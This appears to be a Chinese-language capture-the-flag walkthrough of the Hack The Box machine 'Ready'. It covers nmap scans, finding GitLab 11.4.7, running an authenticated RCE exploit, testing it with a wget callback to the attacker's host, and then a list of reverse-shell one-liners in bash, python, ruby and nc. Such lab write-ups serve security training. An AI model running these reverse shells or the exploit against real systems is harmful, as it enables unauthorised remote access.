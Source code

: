 # 服务探测

开放端口
```
┌──(root㉿rock)-[~]
└─# nmap -p- --open 10.10.10.220              
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-01 04:24 EDT
Nmap scan report for 10.10.10.220
Host is up (0.030s latency).
Not shown: 61766 closed tcp ports (reset), 3767 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
5080/tcp open  onscreen

Nmap done: 1 IP address (1 host up) scanned in 50.09 seconds
```

详细端口信息
```

┌──(root㉿rock)-[~]
└─# nmap -sV -Pn -A -O 10.10.10.220 -p 22,5080
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-01 04:26 EDT
Nmap scan report for 10.10.10.220
Host is up (0.092s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
|_http-title: GitLab is not responding (502)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 11 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   ... 10
11  12.36 ms 10.10.10.220

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.71 seconds

```


# web

robots.txt
```
User-Agent: *
Disallow: /autocomplete/users
Disallow: /search
Disallow: /api
Disallow: /admin
Disallow: /profile
Disallow: /dashboard
Disallow: /projects/new
Disallow: /groups/new
Disallow: /groups/*/edit
Disallow: /users
Disallow: /help
# Only specifically allow the Sign In page to avoid very ugly search results
Allow: /users/sign_in

# Global snippets
User-Agent: *
Disallow: /s/
Disallow: /snippets/new
Disallow: /snippets/*/edit
Disallow: /snippets/*/raw

# Project details
User-Agent: *
Disallow: /*/*.git
Disallow: /*/*/fork/new
Disallow: /*/*/repository/archive*
Disallow: /*/*/activity
Disallow: /*/*/new
Disallow: /*/*/edit
Disallow: /*/*/raw
Disallow: /*/*/blame
Disallow: /*/*/commits/*/*
Disallow: /*/*/commit/*.patch
Disallow: /*/*/commit/*.diff
Disallow: /*/*/compare
Disallow: /*/*/branches/new
Disallow: /*/*/tags/new
Disallow: /*/*/network
Disallow: /*/*/graphs
Disallow: /*/*/milestones/new
Disallow: /*/*/milestones/*/edit
Disallow: /*/*/issues/new
Disallow: /*/*/issues/*/edit
Disallow: /*/*/merge_requests/new
Disallow: /*/*/merge_requests/*.patch
Disallow: /*/*/merge_requests/*.diff
Disallow: /*/*/merge_requests/*/edit
Disallow: /*/*/merge_requests/*/diffs
Disallow: /*/*/project_members/import
Disallow: /*/*/labels/new
Disallow: /*/*/labels/*/edit
Disallow: /*/*/wikis/*/edit
Disallow: /*/*/snippets/new
Disallow: /*/*/snippets/*/edit
Disallow: /*/*/snippets/*/raw
Disallow: /*/*/deploy_keys
Disallow: /*/*/hooks
Disallow: /*/*/services
Disallow: /*/*/protected_branches
Disallow: /*/*/uploads/

```

在这个页面确认gitlab版本为：11.4.7
```
http://10.10.10.220:5080/help
```

搜索漏洞情况，存在一个授权的RCE
```
┌──(root💀kali)-[~/htb/Ready]
└─# searchsploit gitlab 11.4.7
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
GitLab 11.4.7 - RCE (Authenticated) (2)                                                                                                                                                                   | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authenticated) (1)                                                                                                                                                 | ruby/webapps/49257.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results


```


执行payload，但是没有返回rev shell
```
──(root💀kali)-[~/htb/Ready]
└─# python3 49334.py -u chen -p 123456789 -g 'http://10.10.10.220' -l 10.10.16.2 -P 5080
[+] authenticity_token: P6oayybySIHkjN1hOiORE2To2qUsij2zCCWcEwRjr/eJ/UnDoWxn4YF5ZWw9aRBAUenpEHf0nkcnXQAZfSnCew==
[+] Creating project with random name: project2006
[+] Running Exploit
[+] Exploit completed successfully!

```

查看exp源代码，发现用的是nc反弹的shell
```
f'nc {local_ip} {local_port} -e /bin/bash'
```

linux为了安全考虑，一般会禁用nc的-e和-c参数

我们首先要证明确实是存在RCE，然后再想其他办法反弹shell回来

我们把上面那行代码改为：
```
 f'wget http://10.10.16.2/any'
```

在kali本地开一个http服务器，然后执行exp，收到get请求，证明rce存在
```
┌──(root💀kali)-[~/htb/Ready]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.220 - - [01/Jul/2022 05:22:07] code 404, message File not found
10.10.10.220 - - [01/Jul/2022 05:22:07] "GET /any HTTP/1.1" 404 -

```

使用下面payload


bash -i >& /dev/tcp/10.10.16.2/8080 0>&1

0<&196;exec 196<>/dev/tcp/10.10.16.2/8080; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/10.10.16.2/8080 0<&1 2>&1


sh -i >& /dev/udp/10.10.16.2/5080 0>&1


python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.2",5080));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'


rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.2 5080 >/tmp/f

rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.2 5080 >/tmp/f

nc -c bash 10.10.16.2 5080


python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.2",5080));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'


python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.2",5080));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'


python -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.2",5080));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'



ruby -rsocket -e'f=TCPSocket.open("10.10.16.2",5080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

ncat 10.0.0.1 4242 -e /bin/bash